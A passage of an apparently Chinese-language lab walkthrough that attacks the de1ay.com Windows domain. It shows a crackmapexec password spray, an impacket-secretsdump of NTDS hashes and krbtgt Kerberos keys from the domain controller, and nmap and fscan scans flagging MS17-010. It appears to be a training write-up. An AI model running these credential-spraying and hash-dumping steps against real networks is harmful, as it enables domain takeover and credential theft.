┌──(randark ㉿ kali)-[~]
└─$ proxychains -q crackmapexec smb 10.10.10.0/24 -u administrator -p 1qaz@WSX
SMB         10.10.10.10     445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:de1ay.com) (signing:True) (SMBv1:True)
SMB         10.10.10.80     445    WEB              [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:WEB) (domain:de1ay.com) (signing:False) (SMBv1:True)
SMB         10.10.10.1      445    DESKTOP-7HGIVVS  [*] Windows 10.0 Build 22621 x64 (name:DESKTOP-7HGIVVS) (domain:DESKTOP-7HGIVVS) (signing:False) (SMBv1:False)
SMB         10.10.10.10     445    DC               [+] de1ay.com\administrator:1qaz@WSX (Pwn3d!)
SMB         10.10.10.80     445    WEB              [+] de1ay.com\administrator:1qaz@WSX (Pwn3d!)
SMB         10.10.10.1      445    DESKTOP-7HGIVVS  [-] DESKTOP-7HGIVVS\administrator:1qaz@WSX STATUS_LOGON_FAILURE
SMB         10.10.10.201    445    PC               [*] Windows 7 Ultimate 7601 Service Pack 1 (name:PC) (domain:de1ay.com) (signing:False) (SMBv1:True)
SMB         10.10.10.201    445    PC               [+] de1ay.com\administrator:1qaz@WSX (Pwn3d!)
```

即可拿下整个域内的机器

## 抓取域内哈希信息

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-secretsdump de1ay.com/administrator:1qaz@WSX@10.10.10.10 -just-dc
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:82dfc71b72a11ef37d663047bc2088fb:::
de1ay:1001:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
de1ay.com\mssql:2103:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
DC$:1002:aad3b435b51404eeaad3b435b51404ee:58ee0d176ab1b244bbfcc041802e513a:::
PC$:1105:aad3b435b51404eeaad3b435b51404ee:f7041da1cf1d8b33f967d6aa606cd85a:::
WEB$:1603:aad3b435b51404eeaad3b435b51404ee:36d09e54e39be1e58ab49392a7a2bbc8:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:42e65a58c000dab8d353b1ff2bee93383f27f0966767afa8c1f32fc51122d118
krbtgt:aes128-cts-hmac-sha1-96:5eb13d2a0e1f4980c3e3810d5da3da4f
krbtgt:des-cbc-md5:79c8dc79fe467552
de1ay:aes256-cts-hmac-sha1-96:22df3e763a8d931afea3c8ca499d7d9b7474248b2bf69deac58418f5c6ac899d
de1ay:aes128-cts-hmac-sha1-96:d0f0c418eb1a4c4a13227ed06b56a8fc
de1ay:des-cbc-md5:5b375d8a1016d613
de1ay.com\mssql:aes256-cts-hmac-sha1-96:6dd445adefa385cc6484e2a8c8952be5da579a3664395d3d729c7e577a8b8009
de1ay.com\mssql:aes128-cts-hmac-sha1-96:047129868012d63377c7f3ee61a16999
de1ay.com\mssql:des-cbc-md5:94bf7f5476298957
DC$:aes256-cts-hmac-sha1-96:afd430367c5f67ef9281fa21aef63bd62b9769dfdca33b36d284dc252a8f4ca5
DC$:aes128-cts-hmac-sha1-96:ffda443e17469a695c4bf01e0e18af42
DC$:des-cbc-md5:a72c80fd85ae527c
PC$:aes256-cts-hmac-sha1-96:7d9599b282cb2ec79d80de798c7d8899ff01e3a2248078249633940e26babdd8
PC$:aes128-cts-hmac-sha1-96:d0ba25f6bcf72c9cda9651d0d77d6225
PC$:des-cbc-md5:4adad3628323fd5b
WEB$:aes256-cts-hmac-sha1-96:55843c4228804bc9dcdbc5d162d49862fa243a67829ec9127a4d4ff466c4807d
WEB$:aes128-cts-hmac-sha1-96:8eede9daa16a6759fba1abbd54a51487
WEB$:des-cbc-md5:731aa732c246526e
[*] Cleaning up...
```

## PC.de1ay.com

### nmap

```plaintext title="sudo nmap -A --min-rate=5000 -T5 -p- 192.168.200.201"
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: DE1AY)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=PC.de1ay.com
| Not valid before: 2024-03-13T04:01:12
|_Not valid after:  2024-09-12T04:01:12
| rdp-ntlm-info:
|   Target_Name: DE1AY
|   NetBIOS_Domain_Name: DE1AY
|   NetBIOS_Computer_Name: PC
|   DNS_Domain_Name: de1ay.com
|   DNS_Computer_Name: PC.de1ay.com
|   DNS_Tree_Name: de1ay.com
|   Product_Version: 6.1.7601
|_  System_Time: 2024-03-14T04:30:59+00:00
|_ssl-date: 2024-03-14T04:31:39+00:00; +1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC

Host script results:
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled but not required
|_clock-skew: mean: -1h35m58s, deviation: 3h34m38s, median: 0s
| smb2-time:
|   date: 2024-03-14T04:31:00
|_  start_date: 2024-03-14T04:01:08
| smb-os-discovery:
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: PC
|   NetBIOS computer name: PC\x00
|   Domain name: de1ay.com
|   Forest name: de1ay.com
|   FQDN: PC.de1ay.com
|_  System time: 2024-03-14T12:31:01+08:00
```

### fscan

```plaintext title="./tools/fscan-1.8.3/fscan -h 192.168.200.201"
start infoscan
192.168.200.201:445 open
192.168.200.201:139 open
192.168.200.201:135 open
[*] alive ports len is: 3
start vulscan
[*] NetInfo
[*]192.168.200.201
   [->]PC
   [->]10.10.10.201
   [->]192.168.200.201
[+] MS17-010 192.168.200.201    (Windows 7 Ultimate 7601 Service Pack 1)
```
